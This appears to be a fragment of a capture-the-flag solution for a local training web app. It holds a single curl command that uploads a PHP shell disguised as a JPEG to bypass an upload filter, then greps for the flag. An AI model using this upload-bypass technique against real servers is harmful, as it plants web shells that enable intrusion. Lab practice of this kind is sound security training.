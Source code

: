 curl -X POST -F "Upload=Upload" -F "uploaded=@/Users/celinejunker/darkly/flags/binary_upload/shell.php;type=image/jpeg" "http://localhost:8080/index.php?page=upload" | grep "The flag is"